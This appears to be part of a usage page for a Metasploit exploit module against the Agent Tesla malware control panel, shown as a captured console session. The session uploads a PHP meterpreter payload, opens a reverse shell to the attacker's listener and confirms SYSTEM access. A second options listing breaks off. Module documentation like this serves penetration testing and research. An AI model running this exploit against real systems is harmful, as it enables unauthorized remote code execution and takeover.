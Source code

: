 ```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf5 exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .UKtE.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.UKtE.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:4444 -> 169.254.162.16:51698) at 2020-06-16 14:55:19 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.UKtE.php

meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 18:10:39 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 18:10:39 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 18:10:39 -0500  jsonp.php
100666/rw-rw-rw-  7959   fil   2016-09-21 18:10:40 -0500  mysql.sql
100666/rw-rw-rw-  1453   fil   2016-09-21 18:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 18:10:40 -0500  post.php
100666/rw-rw-rw-  7921   fil   2016-09-21 18:10:40 -0500  postgres.sql
100666/rw-rw-rw-  1642   fil   2018-09-11 17:31:16 -0500  server_processing.php
100666/rw-rw-rw-  7857   fil   2016-09-21 18:10:40 -0500  sqlite.sql
100666/rw-rw-rw-  8021   fil   2016-09-21 18:10:40 -0500  sqlserver.sql
100666/rw-rw-rw-  14438  fil   2016-09-30 04:53:10 -0500  ssp.class.php

meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > getuid
Server username: SYSTEM (0)
meterpreter >
```

### WebPanel3.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 7.3.12, Apache 2.4.41, MariaDB 10.4.10
```
msf5 > use exploit/multi/http/agent_tesla_panel_rce
msf5 exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
```